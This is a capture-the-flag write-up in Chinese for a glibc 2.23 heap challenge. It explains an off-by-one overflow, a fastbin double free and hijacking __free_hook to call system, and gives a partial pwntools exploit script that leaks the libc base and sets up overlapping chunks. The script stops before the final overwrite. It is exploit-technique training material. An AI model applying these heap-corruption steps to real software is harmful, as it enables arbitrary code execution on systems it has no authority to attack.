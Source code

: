 # heap(off by one + fastbin double free + free hook)

[heap](/assets/binary/%E5%88%B7%E9%A2%982/heap)

不存在uaf漏洞，默认libc为2.23版本

通过off by one漏洞制造double free的fastbin

在main arena上伪造chunk，直接覆写top指针指向free_hook上方，之后通过malloc分割top chunk劫持free_hook指向system，完成利用

在https://xz.aliyun.com/t/7020文中提供了先覆写fastbin再劫持top的方法

小问题：
- sendline和send
- 释放一次，索引上限减一，大索引会无法释放

```python
from pwn import *
context.log_level = 'debug'

io = process('./heap')
libc = ELF('./heap').libc
def add(size,strs):
	io.recvuntil('Choice :')
	io.sendline('1')
	io.recvuntil('size: ');
	io.sendline(str(size))
	io.recvuntil('data: ')
	io.send(strs)
def delete(index):
	io.recvuntil('Choice :')
	io.sendline('2')
	io.recvuntil('delete: ')
	io.sendline(str(index))
def show():
	io.recvuntil('Choice :')
	io.sendline('3')

'''
leak libc base
'''
add(0x100,'1') # 0
add(0x68,'2') # 1
delete(0) # unsorted bin
add(0x100,'a'*8) # bk->unsorted bin

show()
libc_base = io.recvuntil('\x7f')[-6:].ljust(8,'\x00')
libc_base = u64(libc_base)
libc.address=libc_base-0x3c4b20-88
print 'libc: '+str(hex(libc.address))

'''
fastbin double free + off by one
'''
add(0x68,'3') # 2
add(0x68,'4') # 3
add(0x68,'5') # 4
delete(1)
add(0x68,'a'*0x68+'\xe1') # 1  off by one
delete(2) # size = no.2+no.3
add(0x68,'3') # 2
add(0x68,'6') # 5 same to no.3
delete(5)
delete(4) # avoid double free check
```